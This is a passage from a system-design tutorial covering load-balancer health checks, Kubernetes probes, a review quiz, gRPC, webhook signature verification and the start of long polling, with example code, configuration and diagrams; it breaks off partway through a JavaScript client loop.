| What it tests | The process runs and can answer HTTP | Also pings the database, cache, other services |
| Speed and cost | Instant, almost free | Slower, adds load on dependencies |
| Catches | Crashes, hangs, full thread pools | Broken DB credentials, lost network routes |
| Big risk | Misses "running but useless" states | One shared dependency failing makes **every** instance look sick |

**The cascade danger of deep checks.** Imagine 10 app servers, each with a `/health` that queries the database. The database has a 20-second slowdown. Every instance's check times out at the same moment, the load balancer marks **all 10** unhealthy, and now even pages that never needed the database (home page, cached product pages) return 503. A small blip became a total outage. Safer patterns:
- Use **shallow** checks to decide whether an instance gets traffic; only check things the instance itself can fix by being restarted or replaced.
- Report dependency status on a separate endpoint used by dashboards and alerts, or return 200 with `"status": "degraded"`.
- Handle a slow dependency with timeouts and circuit breakers inside the app, not by pulling the whole server out.
- Many load balancers *fail open* as a safety net: AWS ALB and NLB route to all targets if every target is unhealthy, and Envoy has a "panic threshold" (50% by default) below which it ignores health status.

```mermaid
stateDiagram-v2
    [*] --> Healthy
    Healthy --> Failing : one check fails
    Failing --> Healthy : next check passes
    Failing --> Unhealthy : 3 fails in a row
    Unhealthy --> Recovering : one check passes
    Recovering --> Unhealthy : check fails again
    Recovering --> Healthy : 2 passes in a row
```

```mermaid
flowchart TD
    subgraph Fleet["All 10 app instances"]
        Checks["Deep health endpoint on every<br/>instance checks the database"]
    end
    DB[("Database<br/>slow for 20 seconds")] -.->|"queries time out"| Checks
    Checks -->|"every check fails at once"| LB["Load balancer"]
    LB -->|"marks ALL instances unhealthy"| Zero["0 servers in rotation"]
    Zero --> Outage["Total outage: 503 for everyone,<br/>even pages that never needed the DB"]
```

**💻 Example:** An Express (Node.js) app with a shallow `/healthz` for the load balancer and a deep `/health` for dashboards. Every dependency check has a short timeout so the endpoint itself can never hang. (`db` and `redis` stand for clients created elsewhere in the app.)

```js
const express = require("express");
const app = express();

// Shallow: "Is this process alive and able to answer?" Use this for the LB.
app.get("/healthz", (req, res) => res.status(200).json({ status: "ok" }));

// Deep: "Can I reach my dependencies?" Use for dashboards and alerts.
app.get("/health", async (req, res) => {
  const checks = {
    database: await check(() => db.query("SELECT 1")),
    cache: await check(() => redis.ping()),
  };
  const allOk = Object.values(checks).every((c) => c === "ok");
  res.status(200).json({            // stay 200 so a DB blip can't drain the fleet
    status: allOk ? "ok" : "degraded",
    checks,
    uptimeSeconds: Math.round(process.uptime()),
  });
});

// Run a check but give up after `ms` milliseconds.
async function check(fn, ms = 500) {
  const timeout = new Promise((_, reject) =>
    setTimeout(() => reject(new Error("timeout")), ms));
  try { await Promise.race([fn(), timeout]); return "ok"; }
  catch (err) { return "fail: " + err.message; }
}

app.listen(8080);
```

Sample response from `/health` during a database problem:

```json
{
  "status": "degraded",
  "checks": { "database": "fail: timeout", "cache": "ok" },
  "uptimeSeconds": 86400
}
```

**🌍 Real-world usage:**
- **AWS Elastic Load Balancing** target groups let you set the health check path, interval, timeout, healthy/unhealthy thresholds and success codes.
- **Kubernetes** turns health checks into liveness, readiness and startup probes (#17). Its own API server exposes `/livez` and `/readyz` endpoints.
- **Spring Boot Actuator** provides `/actuator/health` out of the box, with separate liveness and readiness groups.
- **Consul** runs HTTP, TCP, script and TTL checks and removes failing instances from discovery results (#15).
- **Envoy** and **HAProxy** support both active and passive (outlier detection) health checking.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| Shallow check | Deciding if an instance gets traffic | Misses "alive but broken" cases |
| Deep check | Dashboards, alerts, debugging | Can cascade into a fleet-wide outage |
| Short interval, low threshold | Need very fast failover | False alarms and flapping during brief blips |
| Long interval, high threshold | Stable, noisy environments | Broken servers get traffic for longer |

**⚠️ Common mistakes:**
- A health endpoint that always returns 200 even when the app can't do its real job (e.g., it is served by a separate tiny server while the main app is stuck).
- Deep checks on the load-balancer path, turning one dependency blip into a total outage.
- Expensive checks — a heavy query every 5 seconds from every load balancer to every instance adds real load.
- No timeout inside the check, so it hangs exactly when things are slow.
- Exposing internal details (hostnames, versions, error stack traces) on a public health endpoint.

**🎯 Remember:** Health checks let machines remove broken servers in seconds. Use shallow checks with sensible thresholds for routing traffic, keep deep checks for humans and alerts, and never let one shared dependency mark your whole fleet unhealthy.

**🔗 See also:** [#12 Load Balancing](#12-load-balancing), [#15 Service Discovery](#15-service-discovery), [#17 Liveness & Readiness Probes](#17-liveness--readiness-probes)

---


### 17. Liveness & Readiness Probes

> **In one line:** Kubernetes regularly asks each container two questions — "Are you stuck?" (liveness: if yes, restart it) and "Are you ready for customers?" (readiness: if not, stop sending it traffic) — plus a startup question for slow starters.

**🏠 Real-life analogy:** Think of chefs in a restaurant kitchen. **Readiness:** in the morning a chef is still chopping vegetables, so the host doesn't seat guests at that chef's station yet; if the chef gets swamped later, the host pauses new orders for a while — but nobody fires the chef. **Liveness:** if a chef faints, you call a replacement. **Startup:** a new chef on day one gets a grace period to set up before anyone judges them.

**❓ What problem does it solve?**
By default Kubernetes only notices a container is broken if its process **exits**. But "running" is not the same as "working":
- A deadlocked app (two threads waiting on each other forever) is running but answers nothing. Without a liveness probe it stays stuck until a human notices.
- A freshly started app may need 20 seconds to load config, warm caches and connect to the database. Without a readiness probe, Kubernetes sends it traffic immediately, and every deploy or scale-up causes a burst of errors.
- A slow-starting app (e.g., a big Java service) can be killed by an impatient liveness probe before it finishes starting, then restarted, then killed again — forever.

**⚙️ How it works:**
The **kubelet** (the Kubernetes agent on every node) runs the probes. A probe can be an `httpGet` (any status from 200 to 399 is a pass), a `tcpSocket` connect, an `exec` command (exit code 0 is a pass) or a `grpc` health check.

| Probe | Question | On failure | Typical check | Runs |
|---|---|---|---|---|
| Startup | "Have you finished starting?" | After `failureThreshold` fails, the container is killed and restarted | Same cheap endpoint as liveness | Only at start; liveness and readiness wait until it passes once |
| Liveness | "Are you stuck beyond repair?" | Container is killed and restarted (repeated crashes lead to `CrashLoopBackOff`, with growing delays) | Shallow: can the process answer at all? | The whole lifetime |
| Readiness | "Can you take traffic right now?" | Pod is removed from the Service's endpoints. **No restart.** Added back when it passes | Warmed up, not overloaded, critical config loaded | The whole lifetime |

Key settings (defaults in brackets): `initialDelaySeconds` (0), `periodSeconds` (10), `timeoutSeconds` (1), `failureThreshold` (3), `successThreshold` (1, and it must be 1 for liveness and startup). The maximum time a startup probe allows is roughly `failureThreshold x periodSeconds`.

```mermaid
flowchart TD
    Boot["Container starts"] --> SP{"Startup probe passes?"}
    SP -->|"not yet, keep trying"| SP
    SP -->|"failed too many times"| Restart["kubelet kills and restarts container"]
    SP -->|"passed once"| Both["Liveness and readiness probes begin"]
    Both --> RP{"Readiness passes?"}
    RP -->|"yes"| InSvc["Pod listed in Service endpoints<br/>receives traffic"]
    RP -->|"no"| OutSvc["Pod removed from endpoints<br/>no traffic, NOT restarted"]
    OutSvc -.->|"checked again every period"| RP
    Both --> LP{"Liveness passes?"}
    LP -->|"yes"| Keep["Keep running"]
    LP -->|"no, failureThreshold times in a row"| Restart
    Restart --> Boot
```

**💻 Example:** A Pod with all three probes (in a real Deployment this sits under `spec.template.spec`). `/healthz` is a shallow "process is alive" endpoint; `/ready` returns 200 only when the app is warmed up and willing to take traffic.

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: orders-api
  labels:
    app: orders-api
spec:
  containers:
    - name: app
      image: example/orders-api:1.4.2
      ports:
        - containerPort: 8080
      startupProbe:                 # protects slow starts
        httpGet: { path: /healthz, port: 8080 }
        periodSeconds: 5
        failureThreshold: 30        # up to 30 x 5s = 150s to start
      livenessProbe:                # "am I stuck?" - keep it shallow
        httpGet: { path: /healthz, port: 8080 }
        periodSeconds: 10
        timeoutSeconds: 3
        failureThreshold: 3         # about 30s of failure before a restart
      readinessProbe:               # "can I take traffic right now?"
        httpGet: { path: /ready, port: 8080 }
        periodSeconds: 5
        timeoutSeconds: 2
        failureThreshold: 2         # pulled from traffic quickly, no restart
```

```bash
kubectl get pods                        # READY column shows 0/1 until readiness passes
kubectl describe pod orders-api         # Events show "Liveness probe failed" etc.
kubectl get endpointslices -l kubernetes.io/service-name=orders-api   # pod IPs behind a Service named orders-api
```

**🌍 Real-world usage:**
- **Spring Boot** (Actuator) exposes `/actuator/health/liveness` and `/actuator/health/readiness`, designed to map directly onto these two probes.
- The **Kubernetes API server** itself publishes `/livez` and `/readyz` endpoints.
- Most Helm charts for popular software (databases, ingress controllers, monitoring tools) ship with all three probes configured.
- During **rolling deploys**, Kubernetes waits for new pods to become Ready before removing old ones, which is why a correct readiness probe means zero-downtime releases.
- Graceful shutdown: when a pod is being terminated it is taken out of the Service endpoints; many teams add a short `preStop` sleep so load balancers stop sending traffic before the app exits, then finish in-flight requests.

**⚖️ Trade-offs:**

| Setting | Benefit | Risk |
|---|---|---|
| Aggressive liveness (short timeout, low threshold) | Stuck containers restarted fast | Healthy-but-busy pods killed under load or during a long garbage-collection pause |
| Relaxed liveness | Fewer false restarts | Truly stuck pods linger longer |
| Strict readiness (checks critical dependencies) | Traffic only to pods that can really serve | If a shared dependency fails, all pods go NotReady at once (see #16) |
| Startup probe | Slow apps start safely, liveness stays fast afterwards | One more thing to tune |

**⚠️ Common mistakes:**
- **Liveness probe that checks the database.** The DB slows down, every pod fails liveness, Kubernetes restarts them all, they come back with cold caches and reconnect all at once, the DB gets even slower — a **restart storm**. Restarting your app can't fix the database, so liveness must not depend on it.
- **Too-aggressive timeouts.** The default `timeoutSeconds` is just 1 second. Under heavy load or a garbage-collection pause, a healthy pod misses it and is killed exactly when you need its capacity most.
- **Same endpoint for liveness and readiness.** An overloaded pod should simply be *rested* (readiness fails); with one shared endpoint it gets *killed* instead, piling more load onto the survivors.
- **No startup probe for slow apps**, then hacking a huge `initialDelaySeconds` onto liveness — or suffering endless restart loops.
- **No readiness probe at all**, so every deploy and scale-up sends traffic to pods that are not ready yet.

**🎯 Remember:** Liveness = "restart me if I'm stuck" (keep it shallow, never depend on other services). Readiness = "don't send me traffic right now" (no restart). Startup = "give me time to boot". Use different endpoints, and be generous with timeouts.

**🔗 See also:** [#16 Health Checks](#16-health-checks), [#15 Service Discovery](#15-service-discovery), [#12 Load Balancing](#12-load-balancing)

---

### 🧠 Part 2 Quiz

**Q1. What is the difference between a forward proxy and a reverse proxy?**
<details><summary>Show answer</summary>

A forward proxy works on behalf of clients: it sits in front of users (e.g., an office proxy) and hides them from the websites they visit. A reverse proxy works on behalf of servers: it sits in front of your backends, hides them from users, and handles TLS termination, compression, caching and routing in one place.

</details>

**Q2. You run 4 API servers behind a load balancer, each with an in-memory limit of 100 requests/minute per API key, yet one customer makes about 400 requests/minute. Why, and how would you fix it?**
<details><summary>Show answer</summary>

Each server counts separately, so the load balancer spreads the customer's calls and each server allows its own 100 — the real limit is 4 x 100. Move the counter to a shared store such as Redis, updated atomically (e.g., INCR plus EXPIRE in a Lua script, or a token bucket), or enforce the limit once at the API gateway.

</details>

**Q3. L4 vs L7 load balancer — when would you choose each?**
<details><summary>Show answer</summary>

An L4 load balancer only sees IPs and ports, so it is extremely fast and works for any TCP/UDP protocol (databases, games, raw TLS pass-through) — e.g., AWS NLB. An L7 load balancer reads HTTP, so it can route by path, host or header, terminate TLS and retry requests — e.g., AWS ALB. Choose L7 for web apps and APIs that need smart routing, L4 for raw speed or non-HTTP traffic.

</details>

**Q4. A 20-second database slowdown took your entire website down, including pages that don't use the database. The load balancer logs show every instance was marked unhealthy. What happened and what would you change?**
<details><summary>Show answer</summary>

The load balancer's health check was a deep check that queried the database, so one shared dependency blip failed every instance at once and the LB removed the whole fleet. Use a shallow check for routing decisions, report dependency status separately (or as "degraded" with HTTP 200), add timeouts and circuit breakers for the DB inside the app, and rely on fail-open or panic-threshold behavior as a safety net.

</details>

**Q5. A new pod needs 40 seconds to warm its cache before it can serve traffic, and occasionally its process deadlocks. Which Kubernetes probes would you configure, and what should each check?**
<details><summary>Show answer</summary>

Use a readiness probe on an endpoint that returns 200 only after the cache is warm, so the pod gets no traffic until then (and no restart). Use a liveness probe on a separate shallow endpoint to catch deadlocks and restart the container — never make it depend on the database. Add a startup probe (e.g., failureThreshold 30 x periodSeconds 5) so liveness doesn't kill the pod while it is still booting.

</details>


## Part 3 — APIs & Real-Time Communication

An **API** (Application Programming Interface) is a menu plus a waiter for software: it is the agreed-upon way one program asks another program to do something ("give me user 42", "charge this card"). On the web, most APIs follow a style called **REST** (Representational State Transfer): every "thing" has a URL (like `/users/42`), and you use HTTP verbs to act on it — `GET` to read, `POST` to create, `PUT`/`PATCH` to update, `DELETE` to remove. The answer usually comes back as **JSON** (JavaScript Object Notation), a simple text format of names and values that both humans and programs can read.

```http
GET /users/42 HTTP/1.1
Host: api.example.com

HTTP/1.1 200 OK
Content-Type: application/json

{"id": 42, "name": "Asha", "plan": "pro"}
```

This part goes beyond basic REST. You will learn a faster style for services talking to each other (gRPC), five different ways to get **real-time updates** (webhooks, polling, Server-Sent Events, WebSockets), and how to change an API or a library **without breaking** the people who depend on it (API versioning and Semantic Versioning).

```mermaid
flowchart LR
    Part3["Part 3: APIs and Real-Time"] --> Styles["Fast service-to-service calls"]
    Styles --> GRPC["gRPC (18)"]
    Part3 --> Push["Getting updates quickly"]
    Push --> WH["Webhooks (19)<br/>server calls server"]
    Push --> LP["Long Polling (20)"]
    Push --> SSE["Server-Sent Events (21)"]
    Push --> WS["WebSockets (22)"]
    Part3 --> Change["Changing things safely"]
    Change --> AV["API Versioning (23)"]
    Change --> SV["Semantic Versioning (24)"]
```

---

### 18. gRPC

> **In one line:** gRPC lets a program call a function that lives on another computer almost as if it were a normal local function, using small, fast binary messages.

**🏠 Real-life analogy:** Imagine two departments in a huge company that talk over an intercom all day. Instead of writing long letters in full sentences (like JSON), both sides share the same printed codebook. So a message can be as short as "form 7, field 1 = d42". Because the codebook is printed and shared, nobody misreads a field, and messages are tiny and quick to understand. That codebook is the `.proto` file, and the intercom is gRPC.

**❓ What problem does it solve?**
- Big companies split their backend into hundreds of small services (microservices) that call each other thousands of times per second. Using text JSON for all of that wastes CPU (parsing text is slow) and network bandwidth (field names are repeated in every message).
- With plain REST there is no enforced contract: if service A sends `userId` and service B expects `user_id`, you only find out when it breaks in production.
- Every team ends up hand-writing HTTP client code, error handling and retries in every language they use.
- Classic HTTP/1.1 handles one request at a time per connection and has no built-in streaming (sending a flow of many messages over one call).

**⚙️ How it works:**
1. **RPC = Remote Procedure Call.** "Procedure" is an old word for function. RPC means calling `GetDriver("d42")` on another machine while the framework hides the network details (connecting, sending bytes, waiting, decoding).
2. **Write the contract first, in a `.proto` file** using **Protocol Buffers** ("protobuf"), Google's data format. You define **messages** (data shapes) and a **service** (the functions). Each field gets a **field number**; that number, not the name, is what travels on the wire.
3. **Code generation.** A compiler called `protoc` reads the `.proto` file and generates code in many languages (Go, Java, Python, C++, C#, Node, and more): a client **stub** (a fake local object whose methods make the network call) and a server base class you fill in. A Python client can call a Go server with zero hand-written networking code.
4. **Binary encoding.** Protobuf turns messages into compact bytes. They are usually much smaller and faster to encode/decode than the same data as JSON, but humans can't read them directly.
5. **Runs on HTTP/2.** HTTP/2 allows **multiplexing** (many calls in flight at once over one TCP connection), header compression, and long-lived **streams** — which is what makes gRPC streaming possible.
6. **Four call types:**

| Call type | Client sends | Server sends | Example |
|---|---|---|---|
| Unary | 1 message | 1 message | "Get driver d42" (like a normal function call) |
| Server streaming | 1 message | many messages | "Keep sending me d42's location" |
| Client streaming | many messages | 1 message | Phone uploads 1,000 GPS points, server replies "got 1000" |
| Bidirectional streaming | many messages | many messages | Live chat or live tracking, both sides talk freely |

7. **Deadlines.** The client says "I will wait at most 300 ms." If the server doesn't finish in time, the call fails with the status `DEADLINE_EXCEEDED`. The deadline also travels to the server (and onward to services it calls), so everyone can stop wasting work on an answer nobody is waiting for anymore.
8. **Status codes.** Instead of HTTP 404/500, gRPC uses its own codes such as `OK`, `NOT_FOUND`, `INVALID_ARGUMENT`, `UNAVAILABLE`, `DEADLINE_EXCEEDED`.

```mermaid
flowchart LR
    Proto["driver.proto<br/>(the contract)"] --> Protoc["protoc compiler"]
    Protoc --> PyStub["Generated Python<br/>client stub"]
    Protoc --> GoBase["Generated Go<br/>server base class"]
    App["Rider app backend<br/>(Python)"] --> PyStub
    PyStub ==>|"HTTP/2 + protobuf bytes"| GoBase
    GoBase --> Logic["Your Go code<br/>(Driver service)"]
```

**💻 Example:**
A `.proto` contract showing all four call types:

```protobuf
syntax = "proto3";
package ride.v1;                       // 'v1' in the package name = versioning (see #23)

message GetDriverRequest {
  string driver_id = 1;                // '= 1' is the field number sent on the wire
}

message Driver {
  string driver_id = 1;
  string name      = 2;
  double lat       = 3;
  double lng       = 4;
}

message LocationPoint { double lat = 1; double lng = 2; }
message UploadSummary { int32 points_received = 1; }

service DriverService {
  rpc GetDriver (GetDriverRequest) returns (Driver);                  // unary
  rpc WatchDriver (GetDriverRequest) returns (stream Driver);         // server streaming
  rpc UploadTrip (stream LocationPoint) returns (UploadSummary);      // client streaming
  rpc LiveTrack (stream LocationPoint) returns (stream Driver);       // bidirectional
}
```

Generate code, then call the service from Python with a deadline:

```bash
pip install grpcio grpcio-tools
python -m grpc_tools.protoc -I. --python_out=. --grpc_python_out=. driver.proto
# creates driver_pb2.py (messages) and driver_pb2_grpc.py (client stub + server base class)
```

```python
import grpc
import driver_pb2, driver_pb2_grpc

channel = grpc.insecure_channel("driver-service:50051")   # use TLS credentials in production
stub = driver_pb2_grpc.DriverServiceStub(channel)

try:
    # Unary call that gives up after 0.3 seconds (the deadline)
    d = stub.GetDriver(driver_pb2.GetDriverRequest(driver_id="d42"), timeout=0.3)
    print(d.name, d.lat, d.lng)
except grpc.RpcError as err:
    if err.code() == grpc.StatusCode.DEADLINE_EXCEEDED:
        print("Driver service too slow - show last known location instead")

# Server streaming: just loop; each item arrives as the server sends it
for update in stub.WatchDriver(driver_pb2.GetDriverRequest(driver_id="d42"), timeout=60):
    print("driver moved to", update.lat, update.lng)
```

**gRPC vs REST vs GraphQL:**

| | REST | gRPC | GraphQL |
|---|---|---|---|
| Data format | JSON text (usually) | Protobuf binary | JSON text |
| Transport | HTTP/1.1 or HTTP/2 | HTTP/2 | HTTP, usually one `POST /graphql` endpoint |
| Contract | Optional (OpenAPI docs) | Required (`.proto`) | Required (GraphQL schema) |
| Who picks the response fields | Server | Server | Client asks for exactly the fields it needs |
| Streaming | Not built in (use SSE/WebSockets) | Built in (4 call types) | Subscriptions (often over WebSockets) |
| Works directly in browsers | Yes | No (needs gRPC-Web + proxy) | Yes |
| Easy to debug with curl | Yes | No (use `grpcurl`, Postman) | Medium |
| HTTP caching | Easy for `GET` | Hard | Hard (mostly `POST`) |
| Origin | Roy Fielding's PhD thesis (2000) | Google, open-sourced 2015 | Facebook (2012), open-sourced 2015 |
| Best for | Public APIs, simple CRUD | Internal service-to-service, low latency, many languages | Frontends with many screens needing flexible data |

**The browser problem and gRPC-Web:** Browser JavaScript (`fetch`) doesn't give enough low-level control over HTTP/2 — for example, gRPC sends its final status in HTTP **trailers** (headers sent *after* the body), which browser code can't read reliably. So a browser can't speak native gRPC. **gRPC-Web** is a slightly modified protocol that browsers can use; a proxy (commonly **Envoy**) translates gRPC-Web to real gRPC for the backend. gRPC-Web supports unary and server-streaming calls, but not client or bidirectional streaming.

**🌍 Real-world usage:** gRPC was created at **Google** as the open-source successor of its internal RPC system (Stubby) and is now a CNCF (Cloud Native Computing Foundation) project. It is mainly used **inside** companies for service-to-service calls. **Kubernetes** uses gRPC for the Container Runtime Interface (kubelet talking to containerd), and **etcd** v3 exposes a gRPC API. **Netflix** uses gRPC widely between backend services, and **Dropbox** rebuilt its internal RPC framework ("Courier") on top of gRPC. The **Envoy** proxy is configured through gRPC APIs. Handy tools: `grpcurl`, Postman, Buf.

**⚖️ Trade-offs:**

| Pros | Cons |
|---|---|
| Small, fast binary messages | Not human-readable, harder to debug |
| Strict contract catches mistakes at compile time | Needs a code-generation step in your build |
| Generated clients in many languages | Browsers need gRPC-Web and a proxy |
| Built-in streaming and deadlines | Long-lived HTTP/2 connections need L7 (smart) load balancing |
| HTTP/2 multiplexing over few connections | Less friendly for public/partner APIs that expect JSON |

**⚠️ Common mistakes:**
- **Changing or reusing field numbers.** Old clients will decode the wrong data. Only add new numbers, and mark removed ones with `reserved 5;`.
- **No deadline.** A call to a hung service waits forever, threads pile up, and the failure spreads to every caller.
- **Using a simple L4 (connection-level) load balancer.** HTTP/2 keeps one long connection open, so *all* requests may stick to one backend. Use an L7 proxy (Envoy, Linkerd) or client-side load balancing.
- **Treating a remote call like a local one.** The network can fail, be slow, or time out — handle errors and retries.
- **Exposing gRPC to the public web** when your users just want simple JSON over REST.

**🎯 Remember:** gRPC = contract-first `.proto` + compact protobuf + HTTP/2 + generated code. It's great for internal service-to-service calls, but awkward for browsers.

**🔗 See also:** [#22 WebSockets](#22-websockets), [#23 API Versioning](#23-api-versioning), [#24 Semantic Versioning, Load Balancing, Timeouts and Retries](#24-semantic-versioning)

---

### 19. Webhooks

> **In one line:** A webhook is when another service automatically sends a message to your server the moment something happens, so you don't have to keep asking.

**🏠 Real-life analogy:** You're waiting for a parcel. You could phone the courier every 10 minutes asking "Is it here yet?" — that's **polling**, and most calls end with "No." Or you give the courier your phone number and say "Call me when it arrives" — that's a **webhook**. The motto is: **"Don't call us, we'll call you."**

**❓ What problem does it solve?** Your shop needs to know when a Stripe payment succeeds, or your CI system needs to know when someone pushes code to GitHub.
- **Without webhooks**, you poll: "any new payments?" every few seconds. Almost every answer is "nothing new", which wastes requests, eats into your API rate limits, and you still learn about events late (up to one polling interval).
- **With webhooks**, the provider sends one HTTP request per real event, within seconds of it happening.

**⚙️ How it works:**
1. **Register an endpoint.** You give the provider a public HTTPS URL (like `https://shop.example.com/webhooks/stripe`) and pick which events you want (for example `payment_intent.succeeded`, or GitHub's `push`).
2. **Get a shared secret.** The provider gives you a secret string that only you and it know.
3. **Event happens → provider sends an HTTP `POST`** to your URL with a JSON body describing the event, plus a **signature header**.
4. **You verify the signature.** It is made with **HMAC** (Hash-based Message Authentication Code): a hash (fingerprint) of the message mixed with the secret. Only someone who knows the secret can produce the correct value, so you can tell real events from fakes. You recompute it and compare.
5. **You reply `2xx` quickly** (for example `200 OK`) to say "got it". Heavy work happens later in the background.
6. **Retries.** If you don't answer with `2xx` in time (timeout, crash, `500`), the provider tries again later, usually with growing gaps. Stripe, for example, keeps retrying for up to three days in live mode.
7. **At-least-once delivery.** Because of retries, you can receive the **same event twice**, and events can arrive **out of order**. Your code must be ready for that.

Polling (the old way):

```mermaid
sequenceDiagram
    participant Shop as Your Server
    participant Pay as Payment Provider
    loop every 10 seconds
        Shop->>Pay: Any new payments?
        Pay-->>Shop: No
    end
    Shop->>Pay: Any new payments?
    Pay-->>Shop: Yes, order 1001 paid
    Note over Shop,Pay: Many wasted calls and up to 10 seconds of delay
```

Webhook (the new way):

```mermaid
sequenceDiagram
    participant Cust as Customer
    participant Pay as Payment Provider
    participant Shop as Your Webhook Endpoint
    Cust->>Pay: Pays for order 1001
    Pay->>Shop: POST /webhooks/payments with signed event
    Shop-->>Pay: 200 OK within milliseconds
    Note over Shop: Verify signature, put event on a queue, process later
    Pay-xShop: If no 2xx is received, retry later with backoff
```

A well-built receiver hands work to a queue so it can answer fast:

```mermaid
flowchart LR
    Provider["Stripe / GitHub / Slack"] -->|"POST signed event"| Endpoint["Webhook endpoint<br/>verify HMAC and timestamp"]
    Endpoint -->|"enqueue event"| Queue[("Queue<br/>SQS / RabbitMQ")]
    Endpoint -->|"200 OK fast"| Provider
    Queue --> Worker["Worker"]
    Worker -->|"skip if event id already seen"| DB[("Database")]
```

**💻 Example:**
A Python (Flask) receiver that verifies a Stripe-style signature. Stripe sends a header like `Stripe-Signature: t=1700000000,v1=5257a8...`, where the signature is HMAC-SHA256 of `"<timestamp>.<raw body>"`. Signing the timestamp gives **replay protection**: an attacker who copies an old request can't just resend it later.

```python
import hmac, hashlib, time, json, os
from flask import Flask, request, abort

app = Flask(__name__)
SECRET = os.environ["WEBHOOK_SECRET"].encode()   # never hard-code secrets
TOLERANCE_SECONDS = 300                          # reject events older than 5 minutes

@app.post("/webhooks/payments")
def payments_webhook():
    raw = request.get_data()          # the EXACT bytes received - don't parse and re-serialize first!
    header = request.headers.get("Stripe-Signature", "")
    parts = dict(p.split("=", 1) for p in header.split(",") if "=" in p)
    ts, sig = parts.get("t", ""), parts.get("v1", "")

    # 1) Replay protection: timestamp must be recent (and it is covered by the signature)
    if not ts.isdigit() or abs(time.time() - int(ts)) > TOLERANCE_SECONDS:
        abort(400)

    # 2) Recompute HMAC over "timestamp.body" and compare in constant time
    expected = hmac.new(SECRET, ts.encode() + b"." + raw, hashlib.sha256).hexdigest()
    if not hmac.compare_digest(expected, sig):
        abort(400)

    job_queue.enqueue(json.loads(raw))   # 3) hand off to a background worker (Celery, SQS...)
    return "", 200                       # 4) answer fast
```

The worker handles duplicates **idempotently** (doing it twice has the same effect as doing it once) by remembering event IDs:

```python
def handle(event):
    # Ideally run this INSERT and the business update in ONE database transaction
    cur = db.execute(
        "INSERT INTO processed_events (event_id) VALUES (%s) ON CONFLICT DO NOTHING",
        (event["id"],),
    )
    if cur.rowcount == 0:
        return                                  # seen before: duplicate delivery, ignore
    if event["type"] == "payment_intent.succeeded":
        mark_order_paid(event["data"]["object"]["id"])
```

In real projects, prefer the provider's official SDK helper (for example `stripe.Webhook.construct_event`), which also handles edge cases like several signatures during secret rotation.

**🌍 Real-world usage:**
- **Stripe** sends events like `payment_intent.succeeded` and `invoice.paid`, signed in the `Stripe-Signature` header, and recommends returning `2xx` before doing complex logic. The **Stripe CLI** (`stripe listen --forward-to localhost:4242/webhook`) forwards test events to your laptop.
- **GitHub** sends `push`, `pull_request`, and other events signed with HMAC-SHA256 in the `X-Hub-Signature-256` header, and expects a `2xx` reply within 10 seconds. CI tools and bots are built on this.
- **Slack** signs requests with `X-Slack-Signature` plus `X-Slack-Request-Timestamp`, and recommends rejecting requests older than five minutes to block replays.
- Shopify, Twilio, PayPal, and many others work the same way. Tools such as **ngrok** expose your local server for testing, and services like **Svix** and **Hookdeck** help companies send or receive webhooks reliably.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| Polling the provider's API | Provider has no webhooks, or you can't expose a public URL | Wasted calls, delay, rate limits |
| Webhooks | Server-to-server event notifications | You must run a public, secure, always-up endpoint and handle duplicates |
| Webhooks + periodic reconciliation | Money or anything critical | More code, but you catch events missed while you were down |

**⚠️ Common mistakes:**
- **Not verifying the signature.** Anyone on the internet could `POST` a fake "payment succeeded" and get free goods.
- **Parsing the JSON and re-serializing it before verifying.** The bytes change slightly (spaces, key order), so the HMAC never matches. Always verify the raw body.
- **Doing slow work before replying.** The provider times out, retries, and now you have duplicates and a backlog.
- **Assuming each event arrives exactly once and in order.** Store event IDs and make handlers idempotent, so a duplicate doesn't ship an order twice.
- **Comparing signatures with `==`.** Use a constant-time compare (`hmac.compare_digest`, `crypto.timingSafeEqual`) to avoid timing attacks.

**🎯 Remember:** Webhooks are "reverse APIs": verify the HMAC on the raw body, check the timestamp, reply `2xx` fast, queue the work, and dedupe by event ID.

**🔗 See also:** [#20 Long Polling](#20-long-polling), [#22 WebSockets, Message Queues, Idempotency, Retries and Backoff](#22-websockets)

---

### 20. Long Polling

> **In one line:** The browser asks "anything new?", and the server waits to answer until it really has something new (or a time limit passes), then the browser immediately asks again.

**🏠 Real-life analogy:** **Short polling** is a kid in the back seat asking "Are we there yet?" every 30 seconds, and the parent saying "No" every time. **Long polling** is the kid asking once, and the parent saying "I'll tell you when we're there" — and then staying quiet until arrival (or saying "still not yet" after an hour, after which the kid asks again).

**❓ What problem does it solve?** Normal HTTP is **request → response**: the server can't speak first; it can only answer. So how does a web page learn about a new chat message?
- **Short polling** (ask every N seconds) sends lots of requests that come back empty. That wastes bandwidth, battery, and server CPU, and you still see the message up to N seconds late.
- **Long polling** gives near-instant delivery while still using plain, ordinary HTTP that works everywhere.

**⚙️ How it works:**
1. The client sends a request such as `GET /api/messages?since=120` ("give me anything after message 120"). The `since` value is a **cursor** — a bookmark of what you've already seen.
2. If there is already something new, the server answers **immediately**.
3. If not, the server **holds the request open** without answering ("parks" it).
4. As soon as new data arrives, the server answers the parked request with it.
5. If nothing happens for a while (for example 25 seconds), the server answers with "nothing new" (often `204 No Content`). The timeout must be **shorter** than any proxy or load balancer idle timeout (AWS ALB's default is 60 seconds), or they will cut the connection.
6. The client processes the answer and **immediately sends the next request**. Because of the cursor, nothing is lost between requests.
7. The server needs a non-blocking design (Node.js, Python asyncio, Go) so thousands of waiting requests don't each tie up a whole thread.

Short polling:

```mermaid
sequenceDiagram
    participant C as Client
    participant S as Server
    C->>S: GET /messages since 120
    S-->>C: 200 empty list
    Note over C: wait 5 seconds
    C->>S: GET /messages since 120
    S-->>C: 200 empty list
    Note over C: wait 5 seconds
    C->>S: GET /messages since 120
    S-->>C: 200 message 121
    Note over C,S: Most requests are wasted, and messages arrive late
```

Long polling:

```mermaid
sequenceDiagram
    participant C as Client
    participant S as Server
    C->>S: GET /messages since 120
    Note over S: Nothing new yet, hold the request open
    Note over S: 8 seconds later message 121 is posted
    S-->>C: 200 message 121
    C->>S: GET /messages since 121
    Note over S: Nothing new for 25 seconds
    S-->>C: 204 No Content - timeout
    C->>S: GET /messages since 121
    Note over C,S: There is almost always one request waiting at the server
```

**💻 Example:**
The client loop (browser JavaScript):

```js
const sleep = (ms) => new Promise((r) => setTimeout(r, ms));

async function listen(cursor = 0) {
  while (true) {
    try {
      const res = await fetch(`/api/messages?since=${cursor}`);
      if (res.status === 200) {
        const { messages, nextCursor } = await res.json();
        messages.forEach(showMessage);
        cursor = nextCursor;            // bookmark: never miss or repeat a message
